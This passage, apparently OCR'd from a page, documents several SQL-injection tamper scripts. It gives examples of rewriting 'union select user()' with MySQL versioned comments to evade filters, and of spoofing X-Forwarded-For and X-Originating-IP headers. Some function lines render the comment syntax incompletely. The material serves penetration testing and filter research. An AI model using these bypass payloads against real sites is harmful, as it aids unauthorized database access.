 Function: header
example
~~~
X-originating-IP: 127.0.0.1
~~~
### versionedkeywords.py
Function: union ==> /!union/
Platform: MySQL 4.0.18, 5.1.56, 5.5.11
example
~~~
1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
~~~
### versionedmorekeywords.py
Function: union ==> /!union/
Platform: MySQL 5.1.56, 5.5.11
example
~~~
1 union select user() ==> 1/*!UNION*//*!SELECT*/user()
~~~
### xforwardedfor.py
Function: X-Forwarded-For Random Head
Platform: All
example
~~~
X-Forwarded-For: 127.0.0.1
~~~
